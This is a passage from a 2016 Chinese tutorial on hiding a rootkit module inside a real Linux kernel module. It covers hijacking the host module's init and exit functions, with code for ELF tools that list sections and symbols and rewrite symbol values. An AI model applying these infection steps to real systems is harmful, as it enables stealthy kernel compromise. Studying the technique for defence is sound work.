如何修改 fshid 使其便于寄生到真实的系统模块
*******************************************

在第 3 小节感染示例模块的时候，我们就对 fshid 做了一些必要的修改。
请注意，在用来感染实际的系统模块时，我们还要多做一点改动。

改动的第一点是把 ``init_module`` 与 ``cleanup_module`` 改成
``fshid_init`` 与 ``fshid_exit`` 来避免名字冲突。
这一点改动与第 3 小节是一样的。

第二点就是，在 ``fshid_init`` 里调用 ``acpi_video_init`` ，
在 ``fshid_exit`` 里调用 ``acpi_video_exit``
来使宿主被感染之后依旧能正常工作。第二点也与第 3 小节类似。

最后是与第 3 小节不同的一个改动，
在定义 ``fshid_init`` 的时候前面加上 ``__init`` ，
定义 ``fshid_exit`` 的时候前面加上 ``__exit`` 。

这是因为系统模块的初始函数与退出函数在定义的时候
通常都加上了这两个修饰前缀。
它们的作用是把函数的代码放到特殊的代码区间里
（也就是说，不放到 ``.text`` 区间里）。
这一点我们要与被感染的模块保持一致。

把系统模块初始函数与退出函数的绑定改成 global 的必要性
******************************************************

系统模块的初始函数与退出函数在定义的时候通常也都会加上 ``static`` ，
这就使得这两个函数只在它那个源码文件的目标文件里可见，
我们也就不能在我们的假初始函数与假退出函数里调用了。

所以，我们要先用 ``objcopy --globalize-symbol``
把这两个函数从 ``local`` 变成 ``global`` 。

5. 小结
+++++++

到此，我们详细讨论了通过链接、修改符号表来感染其他模块并劫持 /
挂钩其他模块的初始函数与退出函数，并将目标模块变成我们的宿主，
依托目标模块活动。

需要说明的是，对符号的具体解析、重定位细节，本文没有深入，
且待后续的分解。

另外，本文使用的 ``ld`` 与 ``objcopy`` 在普通用户的机器上很可能没有。
也就是说，我们其实需要自己实现链接与把符号从 ``local``
改成 ``global`` 的功能。考虑到篇幅有限，本文对这两个的实现不做讲解。


第二部分： ELF 文件解析初步
---------------------------

示例一：列举所有区间的名字、文件偏移等信息：``lssec``
+++++++++++++++++++++++++++++++++++++++++++++++++++++

分析 ELF 头部
*************

ELF 文件的起始部分为 ELF 头部，
ELF 头部有两种， 即 ``Elf32_Ehdr`` （32 比特 ELF 文件头部）
与 ``Elf64_Ehdr`` （64 比特 ELF 文件头部）。

我们以 ``Elf64_Ehdr`` 为例看看其成员的含义。

.. code-block:: c

   typedef struct
   {
     unsigned char  e_ident[EI_NIDENT]; // ELF 特征码与其他信息。
     Elf64_Half     e_type; // 类型。
     Elf64_Half     e_machine; // 架构。
     Elf64_Word     e_version; // 版本。
     Elf64_Addr     e_entry; // 入口点虚拟地址。
     Elf64_Off  e_phoff; // 程序头表的文件偏移。
     Elf64_Off  e_shoff; // 区间头表的文件偏移。
     Elf64_Word     e_flags;
     Elf64_Half     e_ehsize; // ELF 头部的大小（单位：字节）。
     Elf64_Half     e_phentsize; // 程序头表项的大小（单位：字节）。
     Elf64_Half     e_phnum; // 程序头表项的数目。
     Elf64_Half     e_shentsize; // 区间头表项的大小（单位：字节）。
     Elf64_Half     e_shnum; // 区间头表项的数目。
     Elf64_Half     e_shstrndx; // 区间头字符串表在区间头表的索引。
   } Elf64_Ehdr;

头部的前 ``EI_NIDENT`` 字节数据（即结构体中的 e_ident 成员）
为 ELF Identification，
其中包括特征码，比特类型（即 32 比特或者 64 比特）
与其他信息（比如端序 ）。

具体解析的时候，我们先从文件的起始处读取
``EI_NIDENT`` 字节的内容到内存中，
从中判断出文件的比特类型，在知道了文件的比特类型之后，
我们就可以确定该用 ``Elf32_Ehdr`` 还是用 ``Elf64_Ehdr`` 。

本文涉及的所有操作均以 ``Elf64_Ehdr`` + 小端序为例。

结合示例代码来理解。

.. code-block:: c

   // 省略打开文件部分。

   unsigned char e_ident[EI_NIDENT];
   // 读取文件起始 ``EI_NIDENT`` 字节的内容。
   if (fread(e_ident, 1, EI_NIDENT, fp) != EI_NIDENT) {
       fprintf(stderr, "%s\n", "Incomplete ELF Identification!");
       return EXIT_FAILURE;
   }

   // 判断 ``ELF`` 特征码是否正确。
   // ``ELFMAG`` 与 ``SELFMAG`` 定义于系统头文件 ``elf.h`` 中，
   // 分别为特征码与特征码的大小。
   if (memcmp(e_ident, ELFMAG, SELFMAG) != 0) {
       fprintf(stderr, "%s\n", "Bad ELF Magic Number!");
       return EXIT_FAILURE;
   }

   // 判断是否是 64 比特小端序。
   // 这里使用的宏比如 ``EI_CLASS`` 与 ``ELFCLASS64`` 均定义于 ``elf.h`` 。
   if (e_ident[EI_CLASS] != ELFCLASS64 || e_ident[EI_DATA] != ELFDATA2LSB) {
       fprintf(stderr, "%s\n", "We Only Support ELF64 LE!");
       return EXIT_FAILURE;
   }

   Elf64_Ehdr header;
   // 退回到文件起始。
   fseek(fp, 0, SEEK_SET);
   // 读取一个 ``Elf64_Ehdr`` 大小的内容，
   // 也就是读取 ``ELF`` 头部。
   if (fread(&header, 1, sizeof header, fp) != sizeof header) {
       fprintf(stderr, "%s\n", "Incomplete ELF Header!");
       return EXIT_FAILURE;
   }

分析区间头部
************

上面我们讨论了 ELF 头部的结构与读取方式，
接下来我们看看怎样处理区间头部，区间头部也分两种，
32 比特的叫 ``Elf32_Shdr`` ，自然 64 比特的也就叫 ``Elf64_Shdr`` 。

以 ``Elf64_Shdr`` 为例，成员含义如下。

.. code-block:: c

   typedef struct
   {
     Elf64_Word     sh_name; // 区间名（字符串表索引）。
     Elf64_Word     sh_type; // 区间类型。
     Elf64_Xword    sh_flags; // 区间标志。
     Elf64_Addr     sh_addr; // 区间虚拟地址。
     Elf64_Off  sh_offset; // 区间文件偏移。
     Elf64_Xword    sh_size; // 区间大小（单位：字节）
     Elf64_Word     sh_link;
     Elf64_Word     sh_info;
     Elf64_Xword    sh_addralign;
     Elf64_Xword    sh_entsize; // 这个会在下面 lssym 的时候解释。
   } Elf64_Shdr;

值得注意的是， ``sh_name`` 成员并不是一个字符串，
而是一个整数，为区间头表字符串表的索引。
那我们怎么拿到这个区间的名字呢？

回想我们前面讲的 ELF 头部结构，
``Elf64_Ehdr`` 里的 ``e_shoff`` 成员是区间头表的文件偏移，
``e_shentsize`` 是区间头表项的大小（单位：字节），
``e_shnum`` 是区间头表项的数目；也就是说，
从文件偏移 ``e_shoff`` 开始 ``e_shentsize * e_shnum`` 大小的内容
就是区间头表。
这样一来，我们可以把整个区间头表读取到内存里。
而 ``e_shstrndx`` 是字符串表在区间头表的索引，
通过访问这个索引得到字符串表的头部，
并进而根据头部中的信息将字符串表的内容读取出来，
再 ``sh_name`` 作偏移访问字符串表就可以拿到区间名了。

结合代码示例理解。

.. code-block:: c

   size_t size = header.e_shnum * header.e_shentsize;
   // 分配区间头表大小的内存。
   Elf64_Shdr *section_header_table = malloc(size);
   if (section_header_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到文件偏移 ``e_shoff`` 处。
   fseek (fp, header.e_shoff, SEEK_SET);
   // 读取区间头表。
   if (fread(section_header_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header Table!");
       return EXIT_FAILURE;
   }

   // 得到字符串表的区间头。
   Elf64_Shdr shstrtab = section_header_table[header.e_shstrndx];
   // 区间大小。
   size = shstrtab.sh_size;
   // 分配内存。
   char *section_header_string_table = malloc(size);
   if (section_header_string_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到字符串表所在文件偏移。
   fseek (fp, shstrtab.sh_offset, SEEK_SET);
   // 读取字符串表。
   if (fread(section_header_string_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header String Table!");
       return EXIT_FAILURE;
   }

遍历所有区间并打印其信息
************************

然后我们就可以遍历区间头表并将其名字、文件偏移等信息打印出来。
代码如下。

.. code-block:: c

   printf("%s\n", "number offset     size   entsize   name");
   for (unsigned num = 0; num < header.e_shnum; num += 1) {
       Elf64_Shdr section_header = section_header_table[num];
       char *name = string_table + section_header.sh_name;
       printf("%4u %8llx %8llx %8llx %s\n",
              num, section_header.sh_offset,
              section_header.sh_size, section_header.sh_entsize,
              name);
   }

参考效果
********

编译 ``lssec.c`` 得到 ``lssec`` 。

左边是 ``./lssec /bin/ls`` ，
右边是对比使用的 ``readelf -S /bin/ls`` 。

.. image:: images/lssec.png

示例二：列举所有符号的名字、值等信息：``lssym``
+++++++++++++++++++++++++++++++++++++++++++++++

上面的示例一完成了对区间头表的遍历。现在我们再看看怎么读取符号表。

基于示例一遍历区间头表的代码，
我们可以实现一个 ``get_section_by_name`` ，
即通过区间名字拿到对应的区间头。

然后我们通过 ``get_section_by_name`` 拿到 ``.symtab`` （即符号表）与
``.strtab`` （符号字符串表）的区间头，
进而根据这两个头把这两个区间读到内存中来。
看如下代码。

.. code-block:: c

   // 获取 .symtab 的头。
   Elf64_Shdr *symtab = get_section_by_name(".symtab",
                                            header,
                                            sec_header_tab,
                                            shstrtab);

   // 这儿省略获取 .strtab 的头，与获取 .symtab 的头类似。

   // 这儿省略对是否获取成功的检查。

   // 分配 .symtab 大小的内存。
   Elf64_Sym *syms = malloc(symtab->sh_size);
   if (syms == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }
   // 定位到 .symtab 的文件偏移。
   fseek(fp, symtab->sh_offset, SEEK_SET);
   // 读取 .symtab。
   if (fread(syms, 1, symtab->sh_size, fp) != symtab->sh_size) {
       fprintf(stderr, "%s\n", "Incomplete Symbol Table!");
       return EXIT_FAILURE;
   }

   // 这儿省略 .strtab 的读取，与 .symtab 的读取类似。

此时， ``.symtab`` 与 ``.strtab`` 都已经读到内存里了。
下面我们看看， ``.symtab`` 的结构。

区间头有一个 ``sh_entsize`` 成员，这个成员的含义是，
如果这个区间保存的是一张表，
那么 ``sh_entsize`` 就是这张表中每个成员的大小。
回想一下，区间头里的 ``sh_size`` 是区间的大小，
所以对 ``.symtab`` 而言，它有 ``sh_size / sh_entsize`` 项成员。

每项成员由结构体 ``Elf64_Sym`` 描述，定义如下。

::

   typedef struct
   {
     Elf64_Word     st_name; // 符号名字（字符串表索引）
     unsigned char  st_info; // 类型与绑定。
     unsigned char st_other;
     Elf64_Section  st_shndx;
     Elf64_Addr     st_value; // 符号的值。
     Elf64_Xword    st_size;
   } Elf64_Sym;

``Elf64_Sym`` 中的 ``st_name`` 是一个整数，
为符号的名字在 ``.strtab`` 中的索引，
这一点与之前区间头（ ``Elf64_Shdr`` ）里的 ``sh_name`` 类似。

知道了这些，我们就可以遍历整个符号表并将符号的名字，
符号的值等信息打印出来，如下代码所示。

.. code-block:: c

   printf("%s\n",
          "num    index    size    value  info other  name");
   int total = symtab->sh_size / symtab->sh_entsize;
   for (int count = 0; count < total; count += 1) {
       printf("%4llu %4llx %8llu %8llx %4x %4x %s\n",
              count,
              syms[count].st_shndx,
              syms[count].st_size,
              syms[count].st_value,
              syms[count].st_info,
              syms[count].st_other,
              strs + syms[count].st_name);
   }

参考效果
********

编译 ``lssym.c`` 得到 ``lssym`` ，如下图所示，
左边是 ``./lssym ../noinj/noinj.ko`` ，
右边是用来对照的 ``readelf -s ../noinj/noinj.ko`` 。

.. image:: images/lssym.png

示例三：获取或修改给定符号的值：``setsym``
++++++++++++++++++++++++++++++++++++++++++

既然我们已经能够遍历整个符号表了，那么要获取给定符号的值，毫无压力。

那么修改给定符号的值呢，也很简单，请看如下代码，
基于示例二的遍历逻辑修改而来。

.. code-block:: c

    for (int count = 0; count < total; count += 1) {
        // 判断当前遍历到的符号是不是我们给定的符号。
        // 请注意，argv[2] 位置参数用来给定符号的名字。
        if (strcmp(strs + syms[count].st_name, argv[2]) == 0) {
           // 如果是，就会执行进来。
           // 判断位置参数的个数。
            if (argc == 4) {
                // 如果给定了 3 个位置参数，执行到这里。
                // 这时是 setsym 的第二种用法。
                // 即 setsym <module_path> <symbol_name> <symbol_value> 。
                // 也就是设置给定符号的值。

                // 取当前符号。
                Elf64_Sym sym = syms[count];
                char *endp;
                errno = 0;
                // 将 argv[3] 转换成整数。
                // 注意 argv[3] 是需要设置的给定符号的值。
                unsigned long long val = strtoull(argv[3], &endp, 0);
                // 处理转换时可能出现的错误。
                if ((errno == ERANGE && val == ULLONG_MAX) ||
                    (errno != 0 && val == 0)) {
                    perror("strtoull");
                    return EXIT_FAILURE;
                }
                // 处理转换时可能出现的错误。
                if (endp == argv[3]) {
                    fprintf(stderr, "%s\n", "No Valid Number!");
                    return EXIT_FAILURE;
                }
                // 把符号的值改成给定的值。
                sym.st_value = val;

                // 计算当前符号距离 .symtab 起始的偏移。
                long delta = count * symtab->sh_entsize;
                // 定位到当前符号的文件偏移。
                fseek(fp, symtab->sh_offset + delta, SEEK_SET);
                // 写入修改后的符号。
                if (fwrite(&sym, 1, sizeof sym, fp) != sizeof sym) {
                    fprintf(stderr, "%s\n", "Incomplete Sym Write!");
                    return EXIT_FAILURE;
                } else {
                    fprintf(stderr, "%s\n", "Writing complete.");
                }
            } else {
                // 如果给定了 2 个位置参数，执行到这里。
                // 请注意，我们在程序的开始部分就把 argc 限制在了
                // 3 或者 4 。

                // 这时是 setsym 的第一种用法。
                // 即 setsym <module_path> <symbol_name> 。
                // 获取给定符号的值。
                printf("0x%llx\n", syms[count].st_value);
            }
        }
    }

参考效果
********

考虑到我们在第一部分已经基于 ``setsym`` 完成了我们的 Happy Hacking 。
这里就不必举参考用例了。

第三部分： 参考资料与延伸阅读
-----------------------------

1. 参考资料
+++++++++++

- Infecting loadable kernel modules: kernel versions 2.6.x/3.0.x, http://phrack.org/issues/68/11.html#article
- Tool Interface Standard (TIS) Executable and Linking Format (ELF) Specification Version 1.2, http://refspecs.linuxbase.org/elf/elf.pdf

2. 延伸阅读
+++++++++++

- Infecting Loadable Kernel Modules, http://phrack.org/issues/61/10.html#article
- Static Kernel Patching, http://phrack.org/issues/60/8.html#article


如有错误疏忽，欢迎纠正补充；
如有疑惑不解，欢迎提问讨论。

rectigu@gmail.com ， 二〇一六年七月。


.. _笔者的上一篇文章: http://www.freebuf.com/articles/system/107829.html
